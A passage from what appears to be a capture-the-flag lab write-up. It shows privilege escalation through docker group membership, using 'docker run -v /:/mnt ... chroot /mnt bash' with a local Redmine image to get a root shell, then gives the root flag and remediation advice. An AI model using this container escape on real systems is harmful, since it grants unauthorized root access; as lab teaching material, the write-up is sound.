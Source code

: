![](images/2025-09-01_17.png)

- Need to find the docker `image` because there is no internet we need to use the image already exist.  let's see what is already there.

```bash
docker images
```

The above command output:

![](images/2025-09-01_16.png)

The `Redmine` is a docker image that is already exist which is also running on the port `8080` discovered at the initial enumeration.

### Using the local image: `redmine`
```bash
# If you see any images, use them instead
docker run -v /:/mnt -it redmine chroot /mnt bash
```

![](images/2025-09-01_18.png)

### 4.3 Root Flag

The root flag was located at `/root/proof.txt`
```bash
<!-- 1544d6f0e9588d5190094377b8bafb56 -->
1544d6f0e9588dxxxxxxxxxxxxxxxxxxx
```

## 5. Conclusion & Lessons Learned
defense-in-depth, monitoring Docker group users, auditing weak credentials, restricted shells.

## Recommendations

### Immediate Actions
1. **Change all default and weak passwords**
2. **Remove eleanor user from docker group**
3. **Implement stronger restricted shell controls**
